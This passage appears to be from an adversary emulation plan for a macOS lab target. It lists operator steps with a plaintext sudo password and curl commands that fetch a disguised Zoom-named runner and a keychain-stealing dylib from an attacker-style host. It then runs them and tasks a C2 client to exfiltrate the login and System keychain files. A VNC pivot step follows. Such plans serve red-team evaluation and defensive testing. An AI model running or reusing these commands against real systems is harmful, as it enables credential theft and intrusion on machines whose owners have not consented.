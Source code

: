 * Open a Terminal and elevate to sudo, providing the following password when
prompted:

    ```bash
    sudo su
    ```

    | Password |
    | -------- |
    | Ladylike-Laugh |

* Execute curl to download the runner mach-o (`us.zoom.ZoomHelperTool-Runner`)
and the dylib (`XYZ.tmp`):

    ```zsh
    curl --output "/Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-Runner" http://b0ring-t3min4l.kr/files/runnerPath
    curl --output "/tmp/XYZ.tmp" http://b0ring-t3min4l.kr/files/libmodule_keychain.dylib
    ```

* Check using Finder to see if the files were downloaded successfully

* Execute the runner to load and execute the dylib:

    ```bash
    chmod +x /Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-Runner
    /Library/PrivilegedHelperTools/us.zoom.ZoomHelperTool-Runner -p /tmp/XYZ.tmp
    ```

* Proceed to [STRATOFEAR failed/unavailable to exfil Keychain](./AlternativeSteps.md#STRATOFEAR-failedunavailable-to-exfil-keychain)

### STRATOFEAR failed/unavailable to exfil keychain

#### :biohazard: Tier 1 Procedures

* If FULLHOUSE.DOORED **is** available:
  * Task FULLHOUSE.DOORED to upload the user's keychain file to the C2 server:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 3, "arg":"/Users/ranrok/Library/Keychains/login.keychain-db"}'
    ```

  * Task FULLHOUSE.DOORED to upload the user's keychain file to the C2 server:

    ```bash
    ./evalsC2client.py --set-task 01A48A493AC92607E79CB427067C0A42 '{"id": 3, "arg":"/Library/Keychains/System.keychain"}'
    ```

  * Return to the emulation plan

* If FULLHOUSE.DOORED **is not** available:

  * :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, initiate
  a VNC session to the macOS victim workstation `hogshead (10.55.4.50)` as
  `encryptpotter.net\ranrok`.
